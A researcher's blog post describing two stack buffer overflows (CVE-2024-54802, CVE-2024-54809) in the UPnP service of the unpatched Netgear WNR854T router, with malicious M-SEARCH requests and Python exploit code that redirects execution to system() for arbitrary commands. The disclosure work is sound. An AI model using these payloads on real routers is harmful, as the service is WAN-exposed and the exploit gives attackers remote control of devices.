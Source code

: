 +++
date = '2025-05-04T19:00:31-04:00'
title = 'Pwning My Childhood Router'
+++

# Intro

I competed in [The Junkyard](https://www.districtcon.org/2025/junkyard) at DistrictCon Year 0, an end-of-life pwnathon where my group and I presented eight 0-days on the [Netgear WNR854T](https://www.netgear.com/support/product/wnr854t/). Funny enough, that was the same router my family used growing up. In this post, I'll walk through two memory corruption bugs we found in its UPnP service, how we discovered them, and how we got code execution.

# Overflow via `HOST` Header ([CVE-2024-54802](https://www.cve.org/CVERecord?id=CVE-2024-54802))

This bug is a classic stack-based buffer overflow triggered by an excessively long `HOST` header in an M-SEARCH request. The vulnerable function uses `strcpy` at offset `0x22bc4` to copy the header into a stack buffer without bounds checking:

![alt text](bof1.png)

If an attacker sends an M-SEARCH with a ridiculously long `HOST` value, it overflows the buffer and overwrites adjacent memory on the stack, including the return address.

This is what a normal M-SEARCH request looks like:

```
M-SEARCH * HTTP/1.1
HOST: 239.255.255.250:1900
MAN: "ssdp:discover"
MX: 3
ST: upnp:rootdevice
```

But, with an oversized `HOST` field, it would overflow the allocated buffer on the stack:

```
M-SEARCH * HTTP/1.1
HOST: AAAAAAAAAAAAAAAAAAAAAAAAAAAA...
MAN: "ssdp:discover"
MX: 3
ST: upnp:rootdevice
```

We crafted a malicious M-SEARCH request that overwrites the return address and redirects execution to a ROP gadget at `0x2d4dc` (`mov r0, r5; bl system`) to execute arbitrary shell commands.

```py
payload_pt1 = b'Z' * 304 # padding
payload_pt2 = (
    b'A' * 4 +  # R4
    b'B' * 4 +  # R5 (command string here)
    b'C' * 4 +  # R6
    b'D' * 4 +  # R7
    b'E' * 4 +  # R8
    b'\xdc\xd4\x02'  # mov r0, r5 ; bl system
)

ret = p32(0xbeffeb20 + (len(cmd.encode()) * 3) + 1)
payload_pt2 = payload_pt2.replace(b'BBBB', ret)

message = (
    payload_pt1 + b'\r\n' +
    payload_pt2 + b'\r\n' +
    b'MAN:"ssdp:discover"\r\n
	b'MX:2\r\n
	b'\r\n' 
) + p32(0xdeadbeef) + (b' ' * 255) + cmd.encode()

sock.sendto(message, (host, 1900))
```

# Overflow via `ST` Header ([CVE-2024-54809](https://www.cve.org/CVERecord?id=CVE-2024-54809))

Another buffer overflow, but it's the parsing of the `ST` header that's triggering the issue. The vulnerable code lives at offset `0x23240`, which is a `strncpy`, but the size parameter ends up being user-controlled since it's obtained arithmetically by parsing the `ST` header:


![alt text](bof2.png)

The code looks for the `:device:` delimiter, then tries to extract the part that comes after it (`printer` in this case):

```
ST: uuid:schemas:device:printer
```

It calculates the length `n` by subtracting pointers: the start of the value (`first`) and the point just after the `:device:` tag (`first_after_device`). Then it uses `strncpy` to copy `n` bytes into a stack buffer. The problem? That `n` value is completely controlled by an attacker. There's no bounds check. If someone sends a value like this:

```
ST: uuid:schemas:device:AAAAAAAAAAAAAAAAAAAAAAAAAAAA...:
```

...the `n` calculation stretches all the way to the next delimiter, and if it's placed far away, `n` becomes massive, allowing `strncpy` to copy past the stack buffer. This parsing logic assumes the input will be nice and well-formed, but it won't be for a malicious request.

And again, we can overwrite the return address and pivot to a `system()` call:

```py
payload = (
    b'Z' * 284 +  # padding
    b'A' * 4 +    # R4
    b'B' * 4 +    # R5 (command string here)
    b'C' * 4 +    # R6
    b'D' * 4 +    # R7
    b'E' * 4 +    # R8
    b'\xdc\xd4\x02'  # mov r0, r5 ; bl system
)

ret = p32(0xbefff540 + (len(cmd.encode()) * 3) + 1)
payload = payload.replace(b'BBBB', ret)

message = (
    b'M-SEARCH * HTTP/1.1\r\n'
    b'HOST:239.255.255.250:1900\r\n'
    b'MAN:"ssdp:discover"\r\n'
    b'MX:2\r\n'
    b'ST:uuid:schemas:device:' + payload + b':\x00\r\n\r\n' 
) + p32(0xdeadbeef) + (b' ' * 255) + cmd.encode() 

sock.sendto(message, (host, 1900))
```

# Final Thoughts

Netgear never patched this model as it's been end-of-life for years. But what makes these bugs even more dangerous is that the UPnP service is exposed on the WAN interface by default, meaning attackers can exploit them over the internet. And with zero memory protections on the device, reliable remote code execution is quite easy.

Thanks for reading! This was my first blog post 🥳